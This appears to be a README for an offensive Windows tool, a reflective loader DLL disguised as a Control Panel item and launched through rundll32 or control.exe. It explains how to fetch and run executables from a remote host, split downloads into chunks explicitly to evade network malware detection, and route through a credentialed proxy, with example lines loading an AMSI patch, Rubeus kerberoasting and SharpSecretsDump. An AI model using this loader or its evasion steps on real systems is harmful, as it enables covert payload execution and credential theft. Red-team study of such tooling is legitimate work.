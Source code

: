 ## Reflective loader DLL
Exports the CPlApplet function, to be used as a Control Panel Item (CPL) for a proxied execution using Windows Control panel. CPL files are just DLLs renamed to have a _.cpl_ extension.

## Description
To avoid the need for arguments (as CPL items don't get any), it looks for the _list.txt_ file on the same folder, if it is not present, it finishes the execution. 

This file will feed the reflective loader with the executables to run, and each will be loaded sequentially in the order they appear in the file. They can be either remote (through HTTP) or local files.

It is possible to pass arguments to the executables normally as if running them on the terminal, but the _space_ character needs to be escaped with a \ (blackslash) character:
```
<executable>.exe <arg1> <arg2> This\ is\ a\ string\ argument
```

Certain network controls will cut the communication once they detect malware, and the loader won't be able to load it. To avoid this, a functionality was added to donwload the file in chunks, assemble the pieces and load the final result. To use this funcionality, you can use the _chunks_ keyword and specify the number of chunks the file is divided in:

```
chunks <n chunks> http://mydomain/Name.exe
```

For this, the server needs to be prepared beforehand, by splitting the file in a number of chunks, and storing them in a folder with the name of the executable, and each chunk should have the following format:
```
- ServerRoot
--- Name
------ Name.00
------ Name.01
------ Name.02
...snip...
------ Name.nn
```
The _split_ command can be used to achieve this, as an example, this script can be used to generate the required folder on the server root folder:
```bash

```

It is also possible to fetch payloads through an HTTP proxy, with credentials:
```
proxy http://<user>:<password>@<ip>:<port> http://mydomain.com/name.exe
```

All these options can be used together, position independently.

Example _list.txt_
```txt
proxy http://user:pass@127.0.0.1:8080 chunks 43 http://mydomain.com/amsi_patch.exe
chunks 43 http://mydomain.com/Rubeus.exe kerberoast
proxy http://user:pass@127.0.0.1:8080 http://mydomain.com/Rubeus.exe kerberoast
C:\Users\Public\SharpSecretsDump.exe
```

### Run
```powershell
rundll32 CPL.cpl,CPlApplet # Normal direct execution
rundll32 shell32,Control_RunDLL CPL.cpl # Execution using Control panel DLL
control CPL.cpl # Execution using Control panel application
```


### References
[T1218.002 - System Binary Proxy Execution: Control Panel](https://attack.mitre.org/techniques/T1218/002/)
 
